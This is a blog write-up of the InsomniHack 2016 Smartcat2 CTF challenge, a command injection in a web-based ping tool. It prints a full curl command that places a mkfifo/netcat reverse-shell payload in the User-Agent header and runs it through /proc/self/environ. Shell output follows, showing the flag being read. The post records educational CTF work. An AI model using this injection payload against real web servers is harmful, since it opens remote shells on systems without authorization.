 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat2 Writeup"
date:   2024-01-18 14:00:10
author: Dhruv Ambaliya
description: 'InsomniHack Teaser CTF 2016, Smartcat2 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat2 CTF](/img/blog/insomnihack/smartcat2.png)


## InsomniHack Smartcat 2

Due to filtering it was impossible to enter any white space in commands, making it far more difficult than the smartcat1 challenge. Initially I tried and failed to use a <code>/dev/tcp/ip/port</code> reverse shell.

### proc/self/environ Injection

The environment variable <code>HTTP_USER_AGENT=</code> which contains the contents of the <code>User-Agent:</code> field, had no filtering allowing for easy injection of a reverse shell.

Using command injection it was possible to execute <code>/proc/self/env</code> and successfully execute a reverse shell.

### Reverse Shell

Putting it all together using curl:

{% highlight bash %}
curl 'http://smartcat.insomnihack.ch/cgi-bin/index.cgi' --user-agent ';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc XXX.XXX.XXX.XXX 80 >/tmp/f;exit' --data 'dest=%0ash</proc/self/environ'
{% endhighlight %}

The flag was not readable by <code>www-data</code>, the binary <code>readflag</code> was required to read the contents of the flag.

A couple of lines needed typing in to "confirm" you had an interactive shell, after entering the flag was displayed:

{% highlight bash %}

www-data@smartcat:/home/smartcat$ ./readflag
./readflag
Give me a...
Give me a...
... flag!
... flag!
Flag:
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'|  hjw
        "----^----"

INS{shells_are _way_better_than_cats}

www-data@smartcat:/home/smartcat$

{% endhighlight %}

Thanks for the challenge :)
